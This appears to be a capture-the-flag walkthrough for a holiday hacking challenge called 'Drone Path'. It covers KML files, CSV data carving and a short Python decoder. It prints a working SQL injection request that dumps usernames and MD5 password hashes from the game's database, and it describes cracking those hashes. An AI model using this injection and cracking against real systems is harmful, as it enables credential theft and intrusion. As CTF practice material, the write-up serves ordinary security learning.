





# Drone Path

**Official Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>

**My Difficulty Rating**:
:fontawesome-solid-gift::fontawesome-solid-gift::fontawesome-solid-gift::fontawesome-solid-gift::fontawesome-regular-square:<br/>

## Objective

!!! question "Request"
    Help the elf defecting from Team Wombley get invaluable, top secret intel to Team Alabaster. Find Chimney Scissorsticks, who is hiding inside the DMZ.

??? quote "Chimney Scissorsticks"
    Hey. Psst, over here. Hey, I'm Chimney Scissorsticks.

    I'm not liking all the tension brewing between the factions, so even though I agreed with how Wombley was handling things, I get the feeling this is going to end poorly for everyone. So I'm trying to get this data to Alabaster's side. Can you help?

    Wombley's planning something BIG in that toy factory. He's not really making toys in there. He's building an armada of drones!

    They're packed with valuable data from the elves working on the project. I think they hide the admin password in the drone flight logs. We need to crack this to prevent this escalating snowball showdown.

    You'll be working with KML files, tracking drone flight paths. Intriguing, right? We need every detail to prepare for what’s ahead!

    Use tools like Google Earth and some Python scripting to decode the hidden passwords and codewords locked in those files.

    Ready to give it a go? It’s going to be a wild ride, and your skills might just turn the tide of this conflict!

## Solution

### Silver

To begin, we can navigate to the FileShare and download the path. Importing it into Google Earth gives
us the first password we need:



We can now login with the username: fritjolf and password: GUMDROP1

As fritjolf, we now have access to an Elf Drone Workshop page where we can search for drones. Naturally,
I immediately tried an SQL injection:



Playing around with `ORDER BY` to work out the number of columns we'd need to match in a subquery will
cause different drones to be returned. Eventually, we stumble upon ELF-HAWK with the comments:

!!! quote
    * These drones will work great to find Alabasters snowball warehouses. I have hid the activation code in the dataset [ELF-HAWK-dump.csv](https://hhc24-dronepath.holidayhackchallenge.com/files/secret/ELF-HAWK-dump.csv). We need to keep it safe, for now it's under /files/secret.

    * We need to make sure we have enough of these drones ready for the upcoming operation. Well done on hiding the activation code in the dataset. If anyone finds it, it will take them a LONG time or forever to carve the data out, preferably the LATTER.

!!! warning "Not the intended path"
    This isn't how silver is intended to be solved, just how I solved it. The proper way to solve it
    is to view fritjolf's profile.

    {: style="height:400px"}

    The file downloaded there has lattitude and longitude values that can be imported into Google Earth.
    After importing, you must zoom *way* in, in order to see the terrain shows the value "Elf-Hawk".
    You can then search for the drone directly without using any SQLi.

Open the ELF-HAWK-dump.csv in Google Sheets and plot it in a line chart with the longitude as the X-axis
and the latitude as the y-axis:



!!! success "DroneDataAnalystExpertMedal"

### Gold

From the silver challenge, we discovered an SQL injection in the drone search. We can exploit this to
dump the database's usernames and passwords by sending a request like:

```
GET /api/v1.0/drones?drone='+UNION+SELECT+username,password,'1'+FROM+users-- HTTP/2
Host: hhc24-dronepath.holidayhackchallenge.com
Cookie: _ga=GA1.1.291187586.1702175657; _ga_F6ZZNPR5E5=GS1.1.1702189151.3.1.1702190561.0.0.0; GCLB="38db899faa8ef55c"; session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZnJpdGpvbGYifQ.Z1jfGg.EWTwW_fQCixBDQrPTcQJ457CZpw
Referer: https://hhc24-dronepath.holidayhackchallenge.com/workshop


```

with the response:
```
{"name":"brynne","quantity":"2fd03c8ea542a7fd85ca4ebbcc13d5ca","weapons":"1"},{"name":"filo","quantity":"3c3a4f722ec77c1712941003443a4d83","weapons":"1"},{"name":"fritjolf","quantity":"2bb7ab7713cc012f02eb03c95f6e4443","weapons":"1"},{"name":"lira","quantity":"9eb6c13b1b18bc785ffb84d977bf5499","weapons":"1"},{"name":"pip","quantity":"e54efff9e6258bef3eb35f093e3bae00","weapons":"1"},{"name":"sprigg","quantity":"4f7f1b7c49fa2b0cc22e2d2599f1f2e5","weapons":"1"},{"name":"tylwen","quantity":"b9af6f935826ae1a89ecba72476fbcba","weapons":"1"}
```

Those hashes look like MD5 which means we can try to crack them with free online rainbow tables or with
something like JackTheRipper.

Pip's password cracks to `RumbleInTheJungle`, but logging in gives us nothing much beyond their
profile:

!!! Quote
    Bio: Pip is a master of drone delivery, programming routes with such precision that packages arrive exactly on the second they are expected. He has a large collection of flags, impressive!

!!! warning "What is a hint and what is not?"
    I got very stuck here. `Pip` could refer to the Package Installer for Python. The comments for
    Pigeon-Lookalike-v4 say:
    
    "I heard a rumor that there is something fishing with some of the files. 
    There was some talk about only TRUE carvers would find secrets and that FALSE ones would never
    find it."

    That led me down a rabbithole reading about https://autocarver.readthedocs.io/en/latest/carvers_examples.html. I believe Pip and carver are both misdirects though.

"Flags", "TRUE" and "FALSE" suggests they might be hiding values in the "True" and "False" columns
so we can write a small Python script to convert them to binary:

```python
lines = None
with open("ELF-HAWK-dump.csv", "r") as fd:
      lines = fd.readlines()


for line in lines:
   for cell in line.split(","):
       if cell == "TRUE":
               print("1", end="")
       elif cell == "FALSE":
               print("0", end="")
```

We can use Cyberchef to convert the binary into ASCII:



!!! success "EXPERTTURKEYCARVERMEDAL"
    CODEWORD=EXPERTTURKEYCARVERMEDAL

## Response

!!! quote "Chimney Scissorsticks"
    Bravo! You've tackled the drone challenge and navigated through those KML files like a true expert. Your skills are just what we need to prevent the big snowball battle—the North Pole thanks you!

    Well done! You cracked the code from the drones and showed you've mastered the basics of KML files. This kind of expertise will be invaluable as we gear up for what’s ahead!

    But I need you to dig deeper. Make sure you’re checking those file structures carefully, and remember—rumor has it there is some injection flaw that might just give you the upper hand. Keep your eyes sharp!
